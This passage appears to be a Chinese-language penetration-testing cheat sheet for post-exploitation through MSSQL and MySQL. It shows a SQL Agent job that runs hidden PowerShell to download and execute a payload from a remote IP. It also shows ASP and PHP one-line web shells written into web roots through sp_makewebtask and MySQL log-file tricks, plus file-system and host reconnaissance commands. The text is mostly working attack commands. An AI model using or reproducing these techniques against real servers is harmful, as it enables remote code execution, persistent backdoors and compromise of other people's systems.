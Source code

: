 ```sql
USE msdb; EXEC dbo.sp_add_job @job_name = N'test_powershell_job1' ; EXEC sp_add_jobstep @job_name = N'test_powershell_job1', @step_name = N'test_powershell_name1', @subsystem = N'PowerShell', @command = N'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://192.168.214.129:80/a''))"', @retry_attempts = 1, @retry_interval = 5 ;EXEC dbo.sp_add_jobserver @job_name = N'test_powershell_job1'; EXEC dbo.sp_start_job N'test_powershell_job1';
```
#### 0x03 文件操作
1、判断文件是否存在
```sql
#返回0表示不存在，返回1表示存在
exec xp_fileexist "c:\\users\\public\\test.txt"
```
2、列目录
```sql
#第一个参数表示要查看的文件夹，第二个参数表示递归层数，第三个参数表示展示的内容包括文件。
exec xp_subdirs "C:\Users\Administrator\",2,1
```
3、写文件
```sql
#开启Web Assistant Procedures
exec sp_configure 'Web Assistant Procedures',1;RECONFIGURE;
exec sp_makewebtask 'c:\www\testwr.asp','select''<%execute(request('ss'))%>''
```
4、创建目录
```sql
exec xp_create_subdir 'D:\test'
```
#### 0x04 信息获取
```sql
exec xp_getnetname			//计算机名
exec xp_msver						//系统信息
exec xp_fixeddrives			//驱动器信息
select default_domain() as mydomain;		//获取域名
```
### 2、MYSQL
在高版本的mysql中，一般默认配置了--secure_file_priv为null限制了文件写入，这种情况就需要通过general_log_file/show_query_log_file来尝试写文件。
```sql
#general_log_file
set global general_log='on';
set global general_log_file='D:/phpStudy/WWW/1.php';
select '<?php assert($_POST[1]);?>';
set global general_log='off'; //切记关闭
```
```sql
#show_query_log_file
set global show_query_log='on';
set global show_query_log_file='D:\\phpStudy\\WWW\\1.php';
select sleep(15),'<?php assert($_POST[1]);?>';
set global show_query_log='off'; //切记关闭
```

